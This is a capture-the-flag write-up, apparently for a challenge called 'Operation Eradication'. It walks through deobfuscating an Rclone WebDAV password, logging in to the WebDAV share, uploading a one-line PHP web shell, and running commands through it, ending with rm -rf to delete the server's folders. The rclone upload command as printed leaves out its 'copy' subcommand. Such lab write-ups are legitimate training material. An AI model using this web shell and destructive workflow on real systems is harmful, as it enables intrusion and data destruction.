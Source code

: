 # Solution
- Hit the Start button and download the operation_eradication file.
- The file contains credentials for a WebDAV service. Google the file content and Rclone appears.

![Alt text](image.png)

- The file is an Rclone configuration file for a WebDAV service. The password is obfuscated though. Google for "Rclone credentials deobfuscator github" and the repository https://github.com/maaaaz/rclonedeobscure shows up.
- Run the tool to get the password in clear.
```bash
python /opt/rclonedeobscure/rclonedeobscure.py -d "HOUg3Z2KV2xlQpUfj6CYLLqCspvexpRXU9v8EGBFHq543ySEoZE9YSdH7t8je5rWfBIIMS-5"
```

![Alt text](image-1.png)

- Browse the link given by the challenge and the WebDAV login is at /webdav path like descripted in the operation_eradication configuration file.

![Alt text](image-2.png)

- Set up an Rclone remote WebDAV with the command:
```bash
rclone config
```
Pick the option "49" for WebDAV. The link must be "http://URL/webdav". The username is "VAHycYhK2aw9TNFGSpMf1b_2ZNnZuANcI8-26awGLYkwRzJwP_buNsZ1eQwRkmjQmVzxMe5r". The password has been found in the previous step.
- Test WebDAV connection listing all the file with Rclone.
```bash
rclone ls huntress:/
```

![Alt text](image-3.png)

- Upload a simple php web shell called "webshell.php" with Rclone copy command.
```php
<?php system($_GET['cmd']); ?>
```

```bash
rclone webshell.php huntress:/
```
- The webshell can be found at "http://URL/webdav/webshell.php". Test the web shell executing "id" command.

![Alt text](image-4.png)

- List all the folders with "ls" command and start deleting them with "rm -rf" command.

![Alt text](image-5.png)

- After deleting all the folders and the "webshell.php" itself, the flag can be found at the starting link.

![Alt text](image-6.png)
